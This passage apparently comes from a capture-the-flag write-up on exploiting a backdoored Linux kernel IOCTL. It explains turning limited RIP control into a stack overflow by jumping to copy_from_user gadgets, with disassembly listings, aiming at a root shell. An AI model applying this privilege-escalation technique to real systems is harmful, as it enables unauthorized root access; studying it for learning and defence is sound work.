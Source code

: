 Now we have unlocked the 4th IOCTL Interface, and we can easily get RIP Control, however, with some constraints.

1. We can only call a function in kernel text, with no control over RDI,RSI or RDX.
2. The kernel crashes right after the function call.

So , if we must use the backdoor, we need to make sure we can "one-shot" to a root shell and not crash the kernel.

RSI is set to `ptr->magic` - a random value.

## Ret to CFU

Return to copy\_from\_user is a general technique to convert a function pointer exploit into a stack overflow. The idea is to jump to a copy\_from\_user call inside a kernel function , a few instructions behind it, where it loads RDI with a stack address and does not change RSI. Usually, RDX control is also required, and there are many targets to jump to , where the `RDI` is only changed right before the function call. For example:

```
   0xffffffff8102e422 <do_set_thread_area+18>:	mov    rsi,r13
   0xffffffff8102e425 <do_set_thread_area+21>:	push   rbx
   0xffffffff8102e426 <do_set_thread_area+22>:	mov    ebx,ecx
   0xffffffff8102e428 <do_set_thread_area+24>:	sub    rsp,0x10
   0xffffffff8102e42c <do_set_thread_area+28>:	mov    rdi,rsp <------- JUMP HERE
   0xffffffff8102e42f <do_set_thread_area+31>:	call   0xffffffff813d1b50 <_copy_from_user>
```

Since RSI is `ptr->magic` , a value we know, we can simply mmap a page at `magic` and store the payload there. The technique itself is very interesting, and useful in exploiting function pointers in network interfaces. Most of the times , RDI is always pointing to a `struct sock` , leaving us with only RSI and RDX control. However, in this situation, we dont control RDX yet.

If you look at the registers we control the moment RIP control happens, we see `rbx` set to 0x100. This is a nice value, and if we could somehow transfer this value into RDX, it would be perfect for an overflow. To find such an arrangement, you can check for xrefs to copy\_from\_user in IDA. There are around 652 xrefs in the current vmlinux. In about an hour of manual inspection of these gadgets, (5 seconds / xref), you will come across

```
   0xffffffff8125daf6 <oom_score_adj_write+22>:	lea    rdi,[rsp+0xb]
   0xffffffff8125dafb <oom_score_adj_write+27>:	mov    QWORD PTR [rsp+0xb],0x0
   0xffffffff8125db04 <oom_score_adj_write+36>:	mov    DWORD PTR [rsp+0x13],0x0
   0xffffffff8125db0c <oom_score_adj_write+44>:	mov    rdx,rbx
   0xffffffff8125db0f <oom_score_adj_write+47>:	mov    BYTE PTR [rsp+0x17],0x0
   0xffffffff8125db14 <oom_score_adj_write+52>:	call   0xffffffff813d1b50 <_copy_from_user>
```

Perfect.

## Escaping the function and hitting Epilogue

Since now we have smashed the kernel stack, we are however, still inside a kernel function called `oom_score_adj_write` , and we might crash the kernel if we continue on and wait for a function epilogue to be hit. Notice how every call to copy\_from\_user has error handling.
